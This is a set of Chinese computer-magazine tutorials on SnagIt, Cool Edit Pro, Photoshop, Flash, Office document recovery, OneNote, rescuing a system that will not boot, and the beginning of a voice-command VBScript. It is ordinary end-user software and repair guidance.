第三步：在“网页转换效果”中添入网页载入前显示的转换效果，如“方形入”。最后单击“完成”，就可生成你的“驴友”相册网页了。

## 实例7：批量转换图像格式、添加阴影水印

除抓图外，SnagIt还具有许多实用的图像编辑技术，比如批量转换图像格式、添加阴影水印等。

第一步：将所有需要转换的图片文件集中到一个文件夹中，然后运行SnagIt，单击左侧“编辑”标签，再单击“批量转换图像”，在选择文件对话框点击“添加文件”，找到保存图片的文件夹后，按下Ctrl+A全选图片并单击“打开”按钮返回，然后单击“下一步”。

第二步：在“转换过滤”对话框中可以对所有图片应用同一种过滤效果，如《电脑爱好者》杂志正文多用“黑白灰度”图片，我们就可以选择“修改→颜色深度→灰色”。同样在“修改”下拉菜单中，还可以设置水印、边框效果等。设置完毕，再单击“下一步”。

第三步：接下来选择合适的“输出目录”，并单击“文件格式”下拉按钮，从下拉列表中选择需要转换的目标格式后再“下一步”，最后点击“完成”，SnagIt会很快完成转换工作，并将批量处理的图片保存到你所设置的“输出目录”中。

## 实例8：妙用SnagIt虚拟打印机

SnagIt在安装时会自动安装一个SnagIt虚拟打印机，利用这个虚拟打印机可以将Word、Excel等软件中的文件快速输出成图片。

第一步：在Word等软件中编辑好文件后，执行“文件→打印”命令，然后在“打印”对话框中将“打印机名称”选择为“SnagIt 7”。

第二步：单击“确定”按钮，片刻后就能将当前文档转换成图形，并在捕获预览窗口中打开，单击“完成”按钮保存图像即可。注意：每次只能虚拟打印一页内容。

(河北 闫艳力)

你是否也想成为一个网络歌手？除了天赋的好嗓子、必要音乐知识外，掌握一些音乐工具的使用也很重要，Cool Edit Pro就是一款专业的音频编辑软件，它可以将你的电脑模拟成一座全功能的录音棚，使你几乎不增加其他投资，就可以制作出专业而美妙的音乐来。下面我们以实例的形式介绍一下它的主要功能。

## Cool Edit Pro给网络歌手热热身

## 实例1：打造自己的原声金曲

唱歌一般都需要伴奏音乐，但对普通爱好者来说，去哪里找小乐队呢？没关系，我们不妨实行拿来主义，从网上下载一些MP3歌曲，将它里面的人声擦去，只留下伴奏音乐制作成纯粹的卡拉OK伴奏带，甚至再把自己录制的歌声混合进去，成为自己名副其实的原声金曲。

第一步：从现有的MP3歌曲中提取伴奏音乐

MP3歌曲一般有两种格式：一种是伴奏和人声分离开来，分别存放在不同的声道中；还有一种是伴奏与人声混合在一起的，左右声道中的声音完全一样。下面分别介绍一下如何提取这两种类型歌曲的伴奏。

1.启动Cool Edit Pro 2.0或2.1中文版(以下简称Cool Edit)，如图1所示，确保当前为多轨界面(单击工具栏左侧第一个按钮，可在波形编辑界面及多轨界面之间切换)，在第1音轨空白处单击鼠标右键，从右键菜单中选择“插入→音频文件”，在显示的对话框中找到从网上下载的“2002年的第一场雪(刀郎).mp3”文件，该MP3将以波形图显示在音轨1中。

注意：一定要把上面那个倒立的黄色三角形游标拖到音轨的最左侧，因为插入的音频


图1

部分需要掌握Cool Edit Pro的行业

| 职业 | 用途 | 必备程度 |
|------|------|----------|
| 网络DJ | 给音乐润色 | 掌握怎样调节音量、剪切音乐、增加相应的效果等 |
| 音响店 | 给客户的音乐解决方案 | 学会混音、制作卡拉OK、转录音带、刻录光盘等 |
| 网络歌手 | 编辑歌曲 | 波形编辑技巧、增加特效、多轨录音、声音的输入输出等 |

多个接口，MIC口一般会标识出一个麦克风图标)。确保处于多轨编辑界面(按F12键可来回切换)，然后单击菜单命令“选项→录制调音台”，调出“录音控制”窗口，在其中选中“麦克风”项，并拖动滑钮适当调高音量(见图3)，确定后关闭该窗口返回Cool Edit中。



图3

2.单击音轨2中的红色“R”按钮，将其点亮，表示音轨2当前处于录音范围之中。接下来单击主界面左下角的录音按钮，对着麦克风开始演唱即可。因为第1音轨中已导入了伴奏音乐，所以在录制的过程中伴奏音乐也会同时播放，这样正好可以让我们掌握住歌曲的节奏。不过在录音之前最好还是多练习几遍，否则录出来的歌可能没法听哦。另外，最好带着耳机来录音，免得伴奏音乐被重复录制，产生噪音。演唱完毕，再次单击录音按钮即可停止。

### 第三步:还不够酷？快快编辑、优化一下吧

1.单击第2音轨的“R”按钮关闭它，然后按空格键试播一下录音。是不是觉得录制的声音较小，听不清楚？没关系，可以调整一下音量。右单击新录制的声音波形，选择“调整音频块音量”，在打开的音量窗口上，将滑钮向上拖动即可整体调整新录制声音的大小了(见图4)。依次类推，如果觉得伴奏的音量太大了，可右击它，选择“调整音频块音量”并将滑钮适当下拖即可。



图4

2.单击一下第2音轨中刚刚录制的波形声音，使其为选中状态(深绿色)，按F12切换到波形编辑界面中，刚才录制的声音以波形显示出来。这波形编辑界面中，可以为声音添加多种特殊效果。如图5所示，单击左侧窗格上的“效果”选项卡，其中有一个效果列表，单击展开分类项，再双击其下的某一效果，比如双击“变速/变调”下面的“变速器”项，右侧声音波形自动被全选，并打开变速对话框，其中有好几项预置的效果，点选一项之后再单击“预览”按钮，即可试听一下，觉得满意的话，确定就可以了。电视、收音机中，有一些非常卡通的人声特效，就可以通过变速器来完成，非常有意思。



图5

> 小提示
如何获得更多的歌曲的伴奏
★使用软件DART Karaoke Studio(下载地址:http://www.onlinedown.net/soft/4176.htm)也可以消除声通混合型歌曲中的人声，它通过削减特定的人声频率来达到去除人声的效果。不过每个演唱者的声线频率不尽相同，需要针对不同的人进行细致调整，比较复杂。
★大多数流行歌曲的MIDI版本，都可以在网上搜索到，可以通过特定的软件将MIDI转成WAV文件，再导入Cool Edit中即可。
★在Cool Edit波形编辑界面中打开声道混合型歌曲，将光标移到左、右声道的交界线上双击，选中两个声道中的所有内容(也可以拖动鼠标进行选取)，再执行菜单命令“偏好→人声消除”，然后按空格键播放试听一下，如果效果不是很好，可重复执行“人声消除”命令，直至效果满意为止。不过“人声消除”命令是通过计算来实现的，效果不太理想，尤其Cool Edit是国外软件，对于中国歌曲中的频率计算就更不理想了。

### 第二步:来吧!录制你自己的原声歌唱

1.把麦克风接到声卡MIC口上(声卡上有多个接口，MIC口一般会标识出一个麦克风图标)。确保处于多轨编辑界面(按F12键可来回切换)，然后单击菜单命令“选项→录制调音台”，调出“录音控制”窗口，在其中选中“麦克风”项，并拖动滑钮适当调高音量(见图3)，确定后关闭该窗口返回Cool Edit中。

第四步:保存歌曲，你的大碟出世啦
1.制作好伴奏，完成了声音录制、编辑，最后别忘了保存文件。按F12键切回多轨界面中，首先执行“文件→另存为”命令保存一个Cool Edit工程文件(后缀为.ses)，这种格式完整保存了各个音轨的信息，方便以后修改。
2.接下来执行“文件→混缩另存为”命令，就可以把制作的原声金曲保存为WAV、MP3、WMA等流行的音频格式了。马上传到网上去，没准一颗网络歌手新星就此诞生了。

## 实例2:轻松玩转数模转换，做一个音乐‘猎头’

### 1.录制收音机中的节目

第一步:从电子市场上购买一根对录线(见图6)。然后将对录线的一端插入声卡的Line In口，另一端插入收音机的Phone插孔中。



图6

第二步:接着选择“开始→程序→附件→娱乐→音量控制”项打开音量控制对话框，在最左边“音量控制”下选中“线路输入”(Line in)项，并拖动音量滑钮来设置监听音量(见图7)。



图7

第三步:在音量控制对话框中，单击“选项→属性”菜单命令，在打开的属性窗口中选择“录音”，然后选中所有可录音的项目，按下“确定”按钮后，再在打开的窗口中选中“线路输入”。

第四步:接下来，单击工具栏上的“新建”按钮，再选择好相应的采样率和歌曲位数，最后单击“确定”按钮。再打开收音机，调到自己喜欢的频道。当听到自己喜欢的内容时，只要单击Cool Edit Pro下方的红色录音按钮即可进行录制了，完成后将文件另存即可。

### 2.录制磁带到电脑中

如果家里有很多磁带，那可以把对录线的一端插入声卡的Line In口，另一端插入收录机的Phone插孔中。接下来，只要把磁带装入收录机中，开始播放，单击录音按钮即可。

### 3.录制电视声音到电脑中

从市场上购买一个三头音频线，把两头接到电视机后面的左右声道输出口，另一头接到声卡的Line In口。当看到精彩节目时，单击录音按钮录制下来即可。

### 4.录制VCD/DVD伴音

把对录线的一端接到家庭用的VCD/DVD机的声音输出口，另一端接到声卡的Line In口。然后再购买一根对录线，把一端与电脑声卡的Line Out或Speaker口相接，另一端与家庭功放或家庭影院相连。这样，我们只要播放VCD/DVD，再单击录音按钮就可以一边欣赏节目一边把伴音录下来了。

## 实例3:将单声道转为双声道

如果有一首歌很好听，但发现它只是单声道的，影响收听效果，通过Cool Edit可以很容易地将其转换为双声道:先打开这个单声道歌曲文件，选择“编辑→转换音频格式”或按下F11键在打开的窗口中选择“立体声”，再选择好相应的采样率和歌曲位数，最后单击“确定”按钮即可。

(电脑狂人)## 飞扬的韵律——用Photoshop制作打散效果图

“往事如烟，相思依旧，几度梦回，几许迷离。”当手中的画卷一片一片飞散时，就宛如心中的记忆随风飘舞。今天，我们就使用Photoshop来实现将画卷打散的效果（本例在Photoshop CS简体中文版中测试通过）。

第一步：运行Photoshop，打开一幅人物照片。在图层调板上，单击底部的“创建新的图层”按钮新建一个图层，将其命名为“散点”（见图1）。

第二步：按下 D 键，将前景色和背景色恢复为默认的黑色和白色。点选矩形选框工具，然后在选项栏中，将“样式”设置为“固定大小”，并将其后面的宽度和高度都设置为10像素，然后在图像区点击一下，即可画出一个10像素见方的选区来，按下Alt+Delete键给它填充上黑色。接着选择菜单命令“编辑→自定义画笔”，在对话框中将画笔也命名为“散点”，单击“好”按钮确定。此时，填充为黑色的小方形选区已经完成使命了，按下Delete删除黑色内容，再按下Ctrl+D键取消选择。

第三步：选择画笔工具，在上方选项栏右侧的调板井中单击“画笔”标签展开画笔调板。本例为了方便操作，将画笔调板拖了出来，使其成为一个普通的浮动调板。在画笔调板左侧选择“画笔笔尖形状”，在右侧的预设画笔列表中选择我们刚刚自定义的“散点”笔尖，选择“间距”项，并将数值设为400%（见图2）；在左侧单击选择“散布”项，然后在右侧将散布的数值设为800%，并勾选“两轴”项，数量设为5，数量抖动设为50%，控制都选择“关”。

第四步：设置好画笔后，就在“散点”图层上沿着人像轮廓涂画几圈，涂画的密度最好要有点层次感，比如人像内部要密一些，渐渐向外扩散的时候，要越来越稀薄（见图3），这样最终出来的图片效果才会好。绘画的过程中，可以根据需要随时改变笔尖的间距、散布值、数量等，以达到不同效果。

第五步：双击背景图层，在弹出的新图层对话框上直接单击“好”按钮确定，这样就把背景层转换为普通的图层了，然后将它拖到散点图层的上面去。将光标移到两个图层之间，按下Alt键不放，这时光标变成两个交叉圆的形状，单击鼠标即可在两个图层间建立剪贴蒙版。这样，在底层的图像只有透过“散点”图层中的散点才能显示出来，相当于后者成为前者的蒙版了。建立剪贴蒙版之后，“散点”图层的名称下面会出现横线，而照片图层的名称会缩进一块，并有一个弯曲的箭头指向下方，这些标志表明了两个图层之间的关系。

第六步：可以继续在散点图层上涂画编辑，直到效果满意为止。有兴趣的读者还可以为散点图层增加图层特效（菜单命令“图层→图层样式→投影”），最后执行“图层→拼合图层”命令将所有图层合并。如图4所示，是本例的最终效果图，感觉还不错吧。

所谓光标跟随效果，是指在浏览网页时，光标周围总有一些可爱的小东西环绕着，它们飞来飞去，光标移动到哪里，它们就跟随到哪里。光标跟随实际上是Flash中一个“古老的”话题了，但是对于初学者来说，依然新鲜有趣。下面，请跟我一起制作一个简单的光标跟随动画吧，以此为基础，大家可以制作出更酷的效果（本文涉及到的素材及最终动画源文件，可从http://www.newhua.com/cfan/200512/follow.rar处下载）。

## 闪闪烁烁满天星——经典 Flash 光标跟随效果

第一步：首先从网上下载一个漂亮的星星闪烁的GIF动画，也可以从我们所提供的素材包中获得（文件名:star.gif），或在ImageReady之类的软件中自己制作一个，非常简单（见图1）。

第二步：启动 Flash MX 2004 中文版（以下简称Flash），执行“文件→新建”命令新建一个 Flash 文档，接着执行“修改→文档”命令打开文档属性对话框，将背景颜色设置为黑色，单击“确定”按钮返回。

第三步：执行“插入→新建元件”命令（快捷键为 Ctrl + F8）打开创建新元件对话框，名称设置为“星星”，行为设置为“影片剪辑”，单击“确定”后进入影片剪辑编辑窗口。接着执行“文件→导入→导入到舞台”命令，在出现的对话框中找到第一步中准备好的star.gif文件并将其导入进来（见图2）。

第四步：再次执行“插入→新元件”命令，在打开的创建新元件对话框中，将名称设置为“群星”，行为设置为“影片剪辑”，单击“确定”按钮进入该影片剪辑编辑窗口。右单击时间轴上图层1的第25帧，选择“插入帧”命令，然后连续单击时间轴左下角的“插入图层”按钮增加5个图层。执行“窗口→库”命令（快捷键Ctrl + L）打开库面板，点选图层1中的第1帧，从库面板中将前面制作的“星星”影片剪辑拖入到舞台中央。接着右击图层2的第5帧，选择“插入关键帧”命令，再同样将“星星”影片剪辑拖到舞台上，其位置可与图层1中的影片剪辑错开一点。依此类推，图层3的第8帧、图层4的第12帧、图层5中的第20帧处都建立一个关键帧并将“星星”影片剪辑拖入到舞台中，且使它们的位置各不相同。这样做的目的是为了使星星在闪烁的时间上、位置排列上错落有致，让最终画面更加活泼一些，如图3所示。当然您也可以按照自己的意愿任意设置影片剪辑的位置、数量、起始帧和结束帧。同时还可调整所拖入的“星星”影片剪辑大小等等，最后单击时间轴左上方的“场景1”按钮返回到主场景编辑模式中。

第五步：在主场景中，点选图层1的第1帧，然后将刚刚建立好的“群星”影片剪辑从库面板中拖到舞台上，确保拖入的“群星”影片剪辑为选中状态，此时展开舞台下方的属性面板，单击“实例名称”文本框，为这个实例改一个名字，叫做stars，如图4所示。为实例取一个名称，就可以在ActionScript动作脚本中调用它了。

第六步：点选第1帧，然后单击展开下方的“动作 - 帧”面板，在右侧编辑区输入1行 ActionScript动作代码：
```
startDrag("stars",true);
```

## 处理不惊慌 遇险Office文档轻松恢复

每天使用Office处理文档，遇到Windows死机在所难免。比如用Word 2003编辑文档，突然遇到停电、程序停止响应、蓝屏。如果文档是一份紧急公文，拯救遇险的文档就等于拯救了你的前途。幸好有Office 2003，它的几个法宝就能帮你“虎口脱险”。

### 请Word自己拯救自己

Word 2003默认设置是具有自动保存文档功能的，如果还是不放心，不妨点击“工具→选项”，进入“保存”选项卡，如果看到“自动保存时间间隔”复选项被选中，则说明“自动文件恢复”功能已经启用（见图）。这样一来，遇到突然停电或死机，可以按照以下步骤拯救文档：

第一步：查看恢复文件。当重启电脑后，再次运行Word，它会自动打开“文档恢复”任务列表。每一个文档名称的后面都跟着形如“[原始文件]”之类的“状态指示器”，它说明了文档恢复过程中已经进行的操作。

> 小提示
“[原始文件]”说明恢复文件来自最后一次手动保存的文件；“已恢复”说明文件来自恢复过程中已恢复的文件，或在“自动恢复”保存过程中已保存的文件。

第二步：保存恢复文件。选中“可用文件”列表中需要保留的文件，单击文件名右侧下拉按钮打开菜单。选择“打开”命令可直接打开被恢复的文档继续编辑；选择“另存为”命令可以打开对话框重新命名或替换保存文档；选择“显示修复”命令会打开对话框显示检测到的可修复错误，我们只要将文件打开以后“保存”或执行“另存为”操作，就能永久保留已经修复的内容了。

> 小提示
如果任务列表中显示了多个自动恢复文件，所有需要的文件都要按照上述方法“打开”或“另存为”。特别需要注意的是，没有通过“保存”或“另存为”命令操作的文档，在Word关闭时都将被自动删除。

### 自动修复不管用，自己动手恢复

如果正在编辑的Word文档因故中断，重启程序以后没有看到任务列表，这时就只能采用手工方法恢复文档。

### 1. 先试试转换文档格式
将Word文档转换为另一种格式，然后再将其转换回Word文档格式。这是最简单和最彻底的文档恢复方法。打开有问题的文件，点击“文件→另存为”，在“保存类型”列表中单击“RTF格式(*.rtf)”，然后单击“保存”。

### 2. 粘贴为新文档
Word用文档中的最后一个段落标记关联各种格式设置信息，特别是节与样式的格式设置。如果将最后一个段落标记之外的所有内容复制到新文档，就有可能将损坏内容留在原始文档中。在新文档中，重新应用所有丢失的节或样式的格式设置。选定最后一个段落标记之外的所有内容的方法是：点击“工具→选项→编辑”，清除“使用智能段落选择范围”复选框，单击“确定”按钮，然后按Ctrl + End组合键，再按Ctrl + Shift + Home组合键。

### 3. 模板损坏可能导致文档异常
Word在Normal.dot模板文件中存储默认信息。如果该文件被损坏，则Word文档中也许会出现奇怪内容。你可以通过Windows的搜索功能找到Normal.dot文件，将其重命名为Normal.old，接着打开Word，由于没有了模板文件，Word会自动重建一个，这时再打开你的文件，如果没有问题，那说明模板文件损坏了。

### 4. 修改扩展名也能恢复
打开“控制面板”，选择“文件夹选项”对话框，选中“查看”选项卡中的“显示所有文件和文件夹”项。

接着启动Word，单击“常用→打开”，在对话框的“查找范围”列表中找到存放恢复文件的位置。如果存放恢复文件的文件夹中含有后缀名为.asd的文件，它就是Word自动保存的恢复文件，只要将文件扩展名由.asd改为.doc，选中后单击“打开”按钮即可用Word打开该文档。

> 小提示
Windows 2000/XP位于C:\Documents and Settings\<用户名>\Application Data\Microsoft\Word；Windows 98/Me位于C:\Windows\ApplicationData\Microsoft\Word。在Word中，点击“工具→选项→文件位置”，选中“自动恢复文件”，单击“修改”按钮可以查看或修改存放恢复文件的位置。

### 5. 文件变成乱码如何修复
如果手工打开文件后看到的是乱码，说明文档内容或结构已经被破坏，此时应立即关闭文档，重新选中“打开”对话框中需要恢复的文件，再单击“打开”按钮旁的下拉按钮，选择菜单中的“打开并修复”，Word 2003会提示文档损坏位置并自动修复。此后只要文件被正常打开了，就说明损坏的文件已经得到修复。如果不行，则要采用下面的方法。

从任意文件中恢复文本。在Word中，点击“工具→选项→常规”，选中“常规选项”下的“打开时确认转换”复选项“确定”。接下来就可以打开“打开”对话框的“文件类型”下拉列表，选择“从任意文件中恢复文本”，然后选中需要恢复文本的受损文件，单击“打开”按钮就会弹出一个对话框，同时在窗口中看到受损文件中的文本，此后只要对恢复后的文件进行编辑保存即可。

### 6. 没招儿啦！请工具帮忙吧！
如果所有尝试都不奏效，建议你请专业的工具来帮忙，比较著名的软件就是 http://www.officerecovery.com/office/index.htm 提供的Office文档恢复系列工具OfficeRecovery 2005，能够恢复Word、Excel、PowerPoint等Office文档，遗憾的是，该网站只提供演示版下载。

### 唤醒沉睡的程序
使用Word编辑文档的过程中，除因死机或停电导致文档编辑中断外，因程序本身停止响应而丢失文档的现象也屡有发生。为此，Office 2003设计了应用程序恢复功能，能在很大程度上避免程序故障导致文档“遇险”。

如果编辑文档过程中发现Word 2003停止响应，应马上打开“Microsoft Office”中的“Microsoft Office工具”，单击其中的“Microsoft Office应用程序恢复”打开对话框。选中“应用程序”列表中停止响应的程序或文档，单击“恢复应用程序”按钮就能唤醒沉睡的程序了。如果想关闭程序并放弃最近一次保存后的编辑结果，可以选中程序名称单击“结束应用程序”。

本文以Word 2003的文档修复为例，讲述了拯救遇险文档的简单过程。如果是Excel或PowerPoint文档出现类似问题，同样可以参考上面的方法进行恢复。而Office XP也有类似功能，因此本文方法可供Word XP用户参考。
（李莉莉）

## 5分钟学会贴便签

Microsoft Office 2003功能太强大，以至于它集成了几乎所有办公族们日常使用的办公要件，连“贴心小贴士”也不放过。这玩意学名叫便签，同事在屏幕两侧贴满了黄色的小纸条就是它啦。今天，我们学学如何将便签“贴”在屏幕里面！

### 第一步：便签在哪里？
在Microsoft Office 2003专业版的安装过程中，你可以选择安装Office OneNote 2003组件，这就是功能强大的便签了。你当然也可以单独安装OneNote 2003软件来实现同样的功能。

### 第二步：便签怎么用？
你会在任务栏的系统托盘里找到这样一个图标（图2）。单击图标，就可以开启一个新便签，注意，OneNote会自动将便签设置为最前端显示，以区别于其他窗口，起到提示作用。

### 第三步：便签能干啥？
你可以在窗口空白处的任意位置单击鼠标左键，并用键盘输入文字。如果有手写板，就可以通过单击笔形图标来切换到涂鸦方式（见图）。如果嫌空白区域太小，更可以最大化便签窗口，完成更多的记录工作。

在以后的学习中，我们会介绍便签的更为丰富的应用。

（ZJ）

## 系统无法启动！如何抢救硬盘数据

只要用过电脑的人就会遇到“系统无法启动”的问题。如果是硬件问题，我们只要换一些新部件就可解决，但对于硬盘中的资料，则是必须要“抢救”回来的。经常有读者打电话向编辑部求救，如何在系统无法启动时抢救自己的重要文件，今天我们就来告诉你如何利用一些工具，突破软件及硬件限制，救出硬盘中的重要数据。

### 系统无法启动的原因在哪里？
造成系统无法启动的原因很多，主要有以下几种：

- 1. 硬件问题
- 2. 文件误删除
- 3. 软件冲突
- 4. 病毒和木马
- 5. 其他原因

如果电脑只进行到了硬件检测，就提示诸如“hard disk install failure”（硬盘安装失败）的错误，这很可能是因为硬盘的电源线或数据线没有插好造成的，除要检查这两条线外，如果在同一根数据线上有两块硬盘，还要检查一下它们的跳线设置是否正确。

> ★在检测硬件时可能出现的其他问题
Primary（Secondary） slave hard fail（从盘错误）：这是从盘设置错误，可以在BIOS中对其进行重新设置，同时还要监测数据线及光驱线。反之如果出现 Primary （Secondary） master hard disk fail，则表示主硬盘出错。
hard disk（s） diagnosis fail（硬盘诊断失败）：如果出现这个问题，那硬盘很可能已经存在故障，如果安装到其他电脑上还是出现此提示，那表明它需要回厂修理了。

误删除文件是每个初级用户都可能遇到的问题，不少人都是觉得C盘文件太多，于是不问青红皂白，乱删一通，最后造成系统无法启动。遇到这种情况可以将使用相同版本系统的同名文件覆盖即可，也可使用下面介绍的修复安装方法。

造成系统无法启动，最常见的软件冲突就是同时安装了两款杀毒软件后。因此如遇到安装完软件后，系统突然无法启动，这时可以试着进入安全模式将刚刚安装的软件卸载，说不定问题就可解决。

病毒和木马破坏系统是常有的事，遇到这种情况，如果还能进入安全模式，就先进入安全模式，然后杀毒即可。或是使用杀毒软件厂商提供的光盘引导后，在DOS下杀毒。

比如驱动问题（同样进入安全模式卸载），硬盘出现坏道等。

### 系统无法启动！你要这样尝试拯救它
以前我们曾多次介绍过面对这种灾难时的应对方法，在这里再次简要介绍一下思路。

- 1. 最后一次正确配置
- 2. 安全模式
- 3. 带网络连接的安全模式
- 4. 带命令行提示符的安全模式
- 5. 故障恢复控制台恢复术

如果新添加的驱动程序与硬件不相符，应在重启后，当一屏文本文本出现然后消失时（该屏文本文本可能包括内存测试、关于BIOS的行和其他行），按F8键，然后利用键盘上的箭头键选择“最后一次正确配置”，并回车。如果是驱动程序或文件被损坏或丢失所导致的问题，你可以直接跳过这一步。

原因：新安装了某个硬件驱动程序或是软件
同上，按下F8键后在出现的菜单中选择“安全模式”，进入后删除刚安装的驱动程序或是软件（主要集中在杀毒软件、防火墙、虚拟光驱、CPU降温软件等需要添加虚拟设备的软件）。

> ★在按F8选择完模式后，再按住Shift，就可以启动带光驱的安全模式了。
★如果在“安全模式”卸载软件时提示Windows Install尚未启动，无法卸载，则可进入“命令提示符窗口”，输入 “REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\SafeBoot\Minimal\MSIServer" /VE /T REG_SZ /F /D"Service"”（不含外侧中文引号）回车。继续输入 “net start msiserver” 回车，启动Windows Installer服务。之后，就可以卸载软件了。

原因：病毒破坏系统
因为可以访问网络，所以可先将杀毒软件的病毒库升级，然后杀毒。接着再用杀毒软件中的注册表修复功能，或RegFix（下载地址:http://nj.onlinedown.net/soft/25562.htm）对注册表进行修复。

原因：无法查明具体原因
此模式一启动，就进入到命令提示符状态，直接使用命令进行各种操作，比如使用“%systemroot%\system32\restore\rstrui.exe”命令，可以进行系统还原操作。

原因：没有开启系统还原功能或是系统还原无效时
用Windows安装光盘启动电脑，在进行到“欢迎使用安装程序”时，按R键选择修复，然后按C键，选择好要修复的Windows，再输入完管理员密码后便开始使用了。

> 注意这里的密码为安装Windows时设置的管理员密码，安装后对管理员密码所做的更改对“故障恢复控制台”不起作用。
在“故障恢复控制台”下，可以针对系统进行很多修复操作，下面列出两个实例。

- 实例1：在开机自检后，屏幕出现Windows启动界面前，电脑停止响应，出现黑屏现象。
参考http://support.microsoft.com/kb/305595/，制作一张Windows XP的启动盘。如果用这张启动盘可以恢复系统，在确认无毒后，启动至“故障恢复控制台”，用“FIXMBR”命令修复主引导记录，如果主引导分区为FAT32文件格式，还可以先使用“FIXBOOT”命令修复引导区。
- 实例2：系统启动时出现NTLDR is missing. Press any key to restart的错误。
将Windows安装盘放入光驱，进入“故障恢复控制台”，用“MAP”命令记下光驱的盘符（如g:\），然后输入“copy g:\i386\ntldr C:\”（不含引号），再运行“copy g:\i386\ntdetect.com C:\”（不含引号），分别覆盖已有的文件。接着再输入“type C:\Boot.ini”，如果可以显示内容，则重启电脑即可，如果显示未找到文件，则可从相同配置的电脑上复制此文件。

### 开机光盘导出资料
如果上面的方法全都无法让Windows起死回生，正常启动，为了保存资料，就只有使用可以启动电脑的光盘进行资料备份了。这样的光盘很多，比如WinPE、ERD2003、深山红叶等，只要以这些名称作为关键词，就能搜索到很多类似软件，这些文件多为ISO，将它们下载后，直接刻盘使用即可。

除此之外，网上还有一些比较特殊的修复光盘，比如下面介绍的“Emergency Boot CD-ROM”。它需要用户在系统正常的时候制作，以后系统出现问题时，可随时进行恢复。

- Emergency Boot CD-ROM小档案
软件版本：0.6.1
软件大小：17MB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://warchive.cdrom.com/pub/simtelnet/msdos/business/ebcd-0_6_1-pro-sfx.exe

应急光盘制作非常简单，只要运行makeebcd.exe文件，备份工具便会自动搜集系统及用户信息，最后会生成一个ISO镜像文件，将该文件刻录至光盘后，一张EBCD应急启动光盘便诞生了。有了这张“王牌”在手，以后一旦系统发生了故障，只要从应急光盘启动，然后在启动页面中根据需要选择相应的命令便可以搞定了。

### 实例：修复MBR
MBR即为主引导记录（Main Boot Record），一旦MBR被破坏，系统便无法启动。修复MBR的方法很多，比如可以用启动盘引导系统，然后通过“FDISK /MBR”命令进行修复。但如果手头没有启动盘，应急光盘就能够帮上我们大忙了。

在应急光盘启动界面中的boot后输入1，然后通过上下键选择“Recover MBR”选项，回车后应急光盘便会在硬盘的引导区写入新的引导记录，使得你的硬盘重新恢复“青春”。

> ★EBCD还可以恢复被误删除的文件。在EBCD的引导窗口按1，打开“System Software”窗口，选择“UnErase”命令，进入到UnErase窗口。通过鼠标选择被删文件所在的目录，该目录下所有被删但可以恢复的文件都会被列举出来。找到需恢复的文件，单击“UnErase”命令即可。
★如果准备购入一台二手电脑，又担心被不实硬件信息所蒙蔽，或许EBCD应急盘可以解除你的烦恼。只要在EBCD的启动界面中输入3，回车后即可开始硬件信息的检测。很快，电脑中硬件的相关信息都会被一一列举出来。要查看某个硬件的详细情况，还可以通过上下键选择该硬件，按下回车键进行查看。

### 硬盘修复还魂术
修复硬盘的方法推荐使用HDDREG。这款软件可以对硬盘物理坏道进行修复，而不仅仅是隐藏。最重要的是它不会破坏驱动器里的资料。

- 第一步：从http://www.newhua.com/cfan/200513/hddreg.rar下载HDDREG，用WinImage或其他软件将文件解压缩至软盘上。
- 第二步：用软盘引导系统后，按1选择中文版，选择硬盘，按回车键。
- 第三步：在“选择并且键入开始的数值”处输入要开始检测的数值，默认为0Mb表示检测整个硬盘（见图）。如果确认硬盘的前2GB没有问题，输入2000即可。回车后，就可以开始修复硬盘了。

### 移位、Ghost恢复术
如果上面所有方法都无法解决问题，那只有将出问题的硬盘跳线设置为“从”，并挂接一台有足够硬盘空间的无问题电脑上。然后启动系统，试着在系统里访问从盘中的文件，并进行备份。如果因为坏道等原因，还是无法查看，可以试着用Ghost，将硬盘中的数据备份。

- 第一步：用Ghost引导盘引导，选择“Options”项，在“Span/CRC”标签下勾选“CRC Ignore”。
- 第二步：在“Image/Tape”标签下选择“Image All”。
- 第三步：回到主窗口，选择“Local -> Disk -> To Image”，将整个从盘中的内容备份至主盘中即可。最后用Ghost Explorer（下载地址:http://nj.onlinedown.net/soft/9672.htm）查看其中的内容即可。

（福建 柳坚 赢亭）

# 编写语音程序 让电脑“听”从你的命令

终日面对只能通过键盘和鼠标交流的电脑，审美疲劳以及生理疲劳在所难免。虽然文人雅士给自己标榜上“键客”或“标客”的抬头，也不能够遮掩住发自内心的期望——如果能够与电脑通过语言交流一诉衷肠，那该有多好！

这里，我们将借助微软公司免费提供的语音应用开发工具包(SAPI 5.1 SDK)让你的电脑能通过麦克风听懂你的语音命令，对你言听计从。虽然避免不了编程，好在微软提供的脚本自动化(Scripting Automation)让你通过记事本就能编写出这样的程序，方便极了！

## 安装配置语音识别引擎

首先请确保耳机和麦克风已经与电脑正确连接了。接着执行以下操作确认系统中已经安装了微软中文语音识别引擎。
点击“开始→设置→控制面板→语音”，进入语音识别选项卡，如果语音属性中可用，则表明安装了语音识别引擎，如图所示。如果不可用，则表明该引擎没有安装。



> 小提示
> 如果想得到更好的识别效果，不妨花些时间对语音识别引擎进行训练。只要根据提示朗读一些关于识别引擎的介绍文字即可，一举两得。
> 如果系统内没有安装语音识别引擎，你可以单独从微软网站下载整个SDK或者直接通过Microsoft Office安装。Office默认不安装语音识别引擎，所以我们需要手动添加。打开“控制面板→添加或删除程序”，单击“更改或删除程序”，然后再点击“Microsoft Office”，然后单击“更改”。接着单击“添加或删除功能”，然后在“要安装的功能”下双击“Office共享功能”，双击中文可选用户输入方法，单击语音，单击下箭头，然后单击“从本机运行”。以上步骤对于不同版本的Windows和Office程序可能有所差异，请注意进行相应调整。

## 控制程序

下面就是实现代码，非常简单，用“记事本”程序输入并且保存成CommandPC.VBS即可：

```
' Name :CommandPC.VBS
' AUTHOR : HUAYING
' DATE : 2005-1-31

Dim CommandDictionary '命令字典对象
Dim WshShell 'WshShell对象提供对本地Windows程序的访问。
Dim ScriptComplete '程序结束标志
Dim SR '语音识别(Speech Recognition)对象
Dim Grammar '语音识别的命令语法对象

'初始化命令字典对象，可根据自己的需要添加命令
Set CommandDictionary = CreateObject("Scripting.Dictionary")
```

```
CommandDictionary.Add "上网", """C:\Program Files\Mozilla Firefox\firefox.exe""" '注意双引号的数目
CommandDictionary.Add "计算器", "calc"
CommandDictionary.Add "记事本", "notepad"
CommandDictionary.Add "空当接龙", "freecell"

Set WshShell = CreateObject("WScript.Shell") '创建WshShell对象

ScriptComplete = False '初始化程序结束标志

'创建语音识别对象，调用由"Command.XML"所定义的语法，并启动语音识别引擎
Set SR = WScript.CreateObject("SAPI.SpSharedRecoContext", "RecoContext_")
